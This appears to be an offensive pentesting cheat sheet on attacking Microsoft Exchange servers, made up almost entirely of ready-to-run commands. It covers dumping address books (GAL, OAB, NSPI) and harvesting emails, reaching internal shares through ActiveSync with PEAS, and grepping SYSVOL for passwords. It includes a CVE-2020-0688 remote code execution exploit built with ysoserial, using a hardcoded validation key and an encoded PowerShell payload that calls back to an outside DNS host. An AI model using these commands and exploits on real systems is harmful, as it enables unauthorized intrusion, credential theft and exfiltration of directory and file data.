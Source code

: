 # Exchange

* [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)

{% file src="https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/Pentesting_MS_Exchange_Server_on_the_Perimeter.png" %}




## GAL



### Ruler

```
$ ./ruler -k -d megacorp.com -u snovvcrash -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose abk dump -o gal.txt
```



### MailSniper

```
PS > Get-GlobalAddressList -ExchHostname mx.megacorp.com -UserName MEGACORP\snovvcrash -Password 'Passw0rd!' -OutFile gal.txt
```



### OAB

Search for `<OABUrl>` node using Burp:

```
POST /autodiscover/autodiscover.xml HTTP/1.1
Host: mx.megacorp.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Authorization: Basic TUVHQUNPUlBcc25vdnZjcmFzaDpQYXNzdzByZCEK
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 350

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>snovvcrash@megacorp.com</EMailAddress>
      <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

Or with a Python [script](https://gist.github.com/snovvcrash/4e76aaf2a8750922f546eed81aa51438):

```
$ ./oaburl.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -e 'exists@megacorp.com'
[*] Authenticated users's SID (X-BackEndCookie): S-1-5-21-3167813660-1240564177-918740779-3102
[+] DisplayName: Sam Freeside
[+] Server: 00ff00ff-00ff-00ff-00ff-00ff00ff00ff@megacorp.com
[+] AD: dc01.megacorp.com
[+] OABUrl: https://mx.megacorp.com/OAB/<OABUrl>/
```

Get `oab.xml` and then `oab.lzx`:

```
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.com/OAB/<OABUrl>/oab.xml > oab.xml
$ cat oab.xml | grep '.lzx' | grep data
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.com/OAB/<OABUrl>/<LZXUrl> > oab.lzx
```

Install libmspack:

```
$ git clone https://github.com/kyz/libmspack ~/tools/libmspack && cd ~/tools/libmspack/libmspack
$ sudo apt install autoconf automake libtool -y
$ ./rebuild.sh && ./configure && make && cd -
```

Parse `oab.lzx` into `oab.txt` and extract emails from `oab.txt` with a regexp:

```
$ ~/tools/libmspack/libmspack/examples/oabextract oab.lzx oab.txt
$ strings oab.txt | egrep -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}" | sort -u > emails.txt
```




## ActiveSync



### PEAS

* [https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [https://github.com/FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [https://github.com/snovvcrash/peas](https://github.com/snovvcrash/peas)

Install:

```
$ git clone https://github.com/snovvcrash/peas ~/tools/peas-m && cd ~/tools/peas-m
$ python3 -m virtualenv --python=/usr/bin/python venv && source venv/bin/activate
(venv) $ pip install --upgrade 'setuptools<45.0.0'
(venv) $ pip install -r requirements.txt
```

Run:

```
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --check
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01\SYSVOL\megacorp.com'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt' -o file.txt
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\share\' [--pattern xml,ini] [--download]
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --brute-unc [--prefix srv]
```



### How-To

1\. Use Nmap `http-ntlm-info` to get NetBIOS domain name and Exchange hostname: hunting for hostname pattern prefix if there is one.

2\. Locate DC (guess it trying hostname pattern prefix) and mirror `\\DC01\SYSVOL\megacorp.local\` share with `--crawl-unc` function:

```
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\SYSVOL\megacorp.com\' --download
```

3\. Find, xargs and grep for keywords in files: `password`, NetBIOS domain name (for additional account names), hostname pattern prefix (for additional hosts/shares):

```
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i -e password -e pass
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <DOMAIN_NETBIOS_NAME>
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <PREFIX>
```

4\. (optional) Brute other share names:

```
$ python -m peas --brute-unc -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com [--prefix srv]
```




## CVE-2020-0688

* [https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys](https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
* [https://github.com/pwntester/ysoserial.net/releases](https://github.com/pwntester/ysoserial.net/releases)
* [https://github.com/MrTiz9/CVE-2020-0688](https://github.com/MrTiz9/CVE-2020-0688)

```
Get ViewStateUserKey: Browser > F12 > Storage > ASP.NET_SessionId
Get ViewStateGenerator: Browser > F12 > Console > document.getElementById("__VIEWSTATEGENERATOR").value
PS > [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$name = hostname;nslookup "$name.0000000000ffffffffff.d.zhack.ca"'))
PS > .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell -exec bypass -enc <BASE64_CMD>" --validationalg "SHA1" --validationkey "CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --viewstateuserkey "<VIEWSTATE>" --generator "<GENERATOR>" --islegacy --isdebug
https://mx.megacorp.com/ecp/default.aspx?__VIEWSTATEGENERATOR=<GENERATOR>&__VIEWSTATE=<VIEWSTATE>
```




## NSPI

* [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
* [https://github.com/ptswarm/impacket](https://github.com/ptswarm/impacket)

* `>= Impacket v0.9.22.dev1+20200819.170651.b5fa089b`

List Address Books and count entities in every one of them:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi list-tables -count
```

Dump any specified Address Book by its name or GUID:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dump-tables -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type EXTENDED -output-file gal.txt
$ cat gal.txt | grep 'mail,' | sort -u | awk -F' ' '{print $3}' > emails.txt
```

Return AD objects by their GUIDs:

```
PS > (Get-ADuser -Identity snovvcrash).ObjectGUID
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi guid-known -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type FULL
```

Dump all AD records via requesting DNTs:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dnt-lookup -lookup-type EXTENDED -start-dnt 0 -stop-dnt 500000 -output-file dnt-dump.txt
```

